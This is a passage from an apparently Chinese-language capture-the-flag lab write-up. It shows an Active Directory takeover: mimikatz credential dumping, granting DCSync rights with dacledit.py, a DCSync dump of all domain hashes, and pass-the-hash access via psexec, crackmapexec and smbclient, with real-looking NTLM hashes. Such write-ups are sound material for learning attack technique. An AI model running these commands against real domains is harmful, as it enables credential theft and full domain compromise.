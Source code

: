 [![](assets/1710899037-5aff98e5a7662b6a1d0883027519e319.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205115-e4c4f176-d56e-1.png)

接下来继续操作

> .\\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit" > 1.txt  
> 给 zhangtong 增加 dcsync 权限：  
> python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\\$ -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -action write -rights DCSync -principal Zhangtong -target-dn 'DC=xiaorang,DC=lab' -dc-ip=172.22.3.2  
> mimikatz 转移账户：  
> sekurlsa::pth /user:Zhangtong /domain:XIAORANG /ntlm:22c7f81993e96ac83ac2f3f1903de8b4  
> 打 dcsync：  
> .\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit" > 12.txt  
> 继续哈希传递打：  
> proxychains psexec.py administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -codec gbk  
> or  
> proxychains crackmapexec smb 172.22.3.2 -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb -d xiaorang.lab -x "type C:\\Users\\Administrator\\flag\\flag.txt"  
> 得到第四个 flag  
> smb 登录邮箱服务器：  
> proxychains smbclient.py xiaorang.lab/administrator@172.22.3.26 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
> 
> 成功拿下，又耗了几个沙烁，心疼。此靶标主要对版本漏洞考的比较多，也学到一新姿势（Dcsync 漏洞），主要是利用了域控制器中的 `DSRPL` 操作，该操作用于复制域控制器中的数据，包括用户 NTLM 哈希值。攻击者可以通过模拟一个域控制器，伪装成域控制器请求其他域控制器的数据，从而获取到用户的 NTLM 哈希值。续下一个啦

## Delivery 靶标
